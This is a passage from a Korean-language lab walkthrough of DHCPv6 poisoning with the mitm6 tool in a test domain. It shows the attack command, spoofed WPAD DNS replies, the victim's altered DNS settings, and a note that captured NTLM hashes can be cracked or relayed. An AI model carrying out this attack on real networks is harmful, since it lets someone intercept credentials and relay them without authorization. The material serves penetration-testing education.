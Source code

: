 위 과정을 거쳐 타겟 호스트의 프록시 계정 정보가 담긴 Net-NTLMv1/v2 트래픽을 공격자가 받는다면, 이를 해시 크래킹 하거나 NTLM 릴레이 공격에 사용할 수 있다.&#x20;

### 실습 - DHCPv6 포이즈닝&#x20;

1. 먼저 타겟의 DHCPv6 메시지에 응답할 가짜 DHCPv6 서버를 `mitm6` 툴을 이용해 실행한다.&#x20;

```
└─# mitm6 -d choi.local  
                      
Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:0c:29:52:ad:98]
IPv4 address: 192.168.40.132
IPv6 address: fe80::9657:ab93:4d68:306f
DNS local search domain: choi.local
DNS allowlist: choi.local
```

* 공격자 IPv4 주소: 192.168.40.132
* 공격자 IPv6 주소: fe80::9657:ab93:4d68:306f

2. 조금 기다리면 타겟 호스트가 Name Resolution을 한다. 구글 방문, 회사 이메일 체크, 회사 내부망 파일서버 접속 등. IPv6 Name Resolution이 가장 먼저 발생하게 되고, 이때 공격자 서버의 DHCPv6 포이즈닝 공격이 시작된다.&#x20;

```
IPv6 address fe80::192:168:40:151 is now assigned to mac=00:0c:29:e0:7a:44 host=wkstn01.choi.local. ipv4=192.168.40.151
Sent spoofed reply for wpad.choi.local. to fe80::789f:a0cd:a227:2c0
```

* 타겟 IPv4 주소: 192.168.40.151 (wkstn01.choi.local)&#x20;
* 할당된 타겟 IPv6 주소: fe80::789f:a0cd:a227:2c0

<figure><img src="../.gitbook/assets/mitm6-solicit.png" alt=""><figcaption></figcaption></figure>

먼저 공격자의 가짜 DHCPv6 서버 `fe80::9657:ab93:4d68:306f` 가 ICMPv6를 이용해 Router Advertisement 를 하고 있다.&#x20;

그 뒤, 타겟 `fe80::789f:a0cd:a227:2c0` 은 IPv6 Name Resolution을 하기 위해 DHCPv6 Solicit 트래픽을 브로드캐스트 범위 `ff02` 에 뿌리고, 이에 공격자의 DHCPv6 서버가 Advertise 트래픽을 타겟에게 반환한다. 이후, DHCPv6 Solicit, Advertise, Request, Reply 과정을 통해 DHCPv6 포이즈닝 공격이 성공적으로 이뤄진다.&#x20;

3. 성공적인 DHCPv6 포이즈닝이 이뤄진 후 타겟의 IPv6 설정은 다음과 같다&#x20;

```
ps> ipconfig /all 

Link-local IPv6 Address . . . . . : fe80::789f:a0cd:a227:2c0%5(Preferred)
IPv4 Address. . . . . . . . . . . : 192.168.40.151(Preferred)
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.40.2
DHCPv6 IAID . . . . . . . . . . . : 100666409
DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-28-E1-9A-5D-00-0C-29-E0-7A-44
DNS Servers . . . . . . . . . . . : fe80::9657:ab93:4d68:306f%5
                                   192.168.40.150
                                   1.1.1.1
NetBIOS over Tcpip. . . . . . . . : Enabled
```
